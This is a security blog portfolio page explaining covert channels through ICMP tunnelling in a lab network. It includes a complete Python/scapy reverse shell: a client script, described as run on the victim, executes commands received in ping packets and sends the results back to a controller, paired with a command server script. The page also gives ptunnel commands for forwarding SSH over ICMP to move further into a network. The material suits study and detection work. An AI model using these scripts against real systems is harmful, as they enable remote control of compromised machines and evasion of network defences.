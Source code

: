 ```yaml
---
permalink: /portfolio/covert/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Covert Channels
---
```


## Introduction

Covert channels are a way to hide and/or obfuscate your connection. This can be done by minimizing your communication, or by tunnelling the traffic through different protocols.

## ICMP Tunneling

One way of setting up a covert channelling is by using ICMP tunnelling. This wraps the data is an ICMP packet, these packets are allowed on most networks.

A ping packet has a lot of reserved space, which is often filled with a buffer of null-bytes. This space can be used to send data over. This cannot be a lot, but a simple shell works.

![ping](https://joeladams.nl/wp-content/uploads/2020/09/ICMP-info.png)

Say, you compromise a machine within a network, but you know that the network is very strict on all TCP connections. Then we tunnel the traffic to ICMP, an allowed protocol, so we can control our victim.

![network](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/network.png)

First, I wanted to manually make a simple script that communicates over ICMP. This is the result of searching and debugging. ([source](https://medium.com/@galolbardes/learn-how-easy-is-to-bypass-firewalls-using-dns-tunneling-and-also-how-to-block-it-3ed652f4a000))

Client (executed on the victim)

```python
#!/usr/bin/env python3

import os
from scapy.all import *

ip = "192.168.241.130"

def main():
    while True:
        # wait for the ICMP message containing the command from the C2 server to be received
        rx = sniff(filter="icmp", count=1)
        var = rx[0]
        if Raw not in var: #If the packet does not contain Raw, it is a wrong message
          continue
        var = rx[0][Raw].load.decode('utf-8')
        # run the command and save the result
        res = os.popen(var).read()
        print(res)
        # build the ICMP packet with the result as the payload
        #This packet is send back to the server.
        send(IP(dst=ip)/ICMP(type="echo-reply", id=0x0001, seq=0x1)/res)

if __name__ == "__main__":
    main()

```

Server (executed on Kali)

```python
#!/usr/bin/env python3

from scapy.all import *

ip="192.168.241.132"

def main():
    while True:
        command = input('# Enter command: ')
        # build the ICMP packet with the command as the payload
        pinger = IP(dst=ip)/ICMP(id=0x0001, seq=0x1)/command
        send(pinger)

        # wait for the ICMP message containing the answer from the agent to be received
        rx = sniff(filter="icmp", count=3) #Capture more than one packet, too much takes long, too little might nog contain the response
        for r in rx:
          if Raw in r: # If the packet contains a Raw load, we have the correct response.
              print(r[Raw].load.decode('utf-8'))

if __name__ == "__main__":
    main()

```

This is an extremely simple reverse shell over ICMP. Both scripts need to be started as root to use the pinger on Linux. Then the C2 server sent a ping request with a command, this command is executed and a reply with the result of the executing is sent back. As you can see on the Wireshark result (captured on Kali), the server sent 2 replies. The first one is the default reply sent by the victim machine itself. The second reply is sent by the script, this contains the result of the executed command.

![wireshark](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/wireshark.png)

![command](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/command.png)

![reply](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/reply.png)

Great! But now we want to advance in the network. How would we do this? Well, using ptunnel we can create a port-forward tunnel over ICMP, to use SSH, for instance. This can be done with the following command:

```bash
#Server (victim)
sudo ptunnnel -v 4

#client (kali)
sudo ptunnel  -p 192.168.241.131 -lp 8000 -da 192.168.241.132 -dp 22 -c eth0
```

Once again, all of the commands need to run as root. On the server, you start a listener to listen for the incoming connection. The `-v 4` is to show the most output for debugging. Then, the second command needs to be executed on the client, in this case, Kali.

- `-p` The IP of the listening server

- `-lp` The local port to forward

- `-da` The remote machine to forward the traffic to (target in this case)

- `-dp` The remote port of the target

- `-c` The interface of the local machine to use.

This creates a port forward form my Kali port 8000 to the target port 22. Now I can communicate with the target over SSH through ICMP

![connected](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/connected.png)

![sshshark](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/sshshark.png)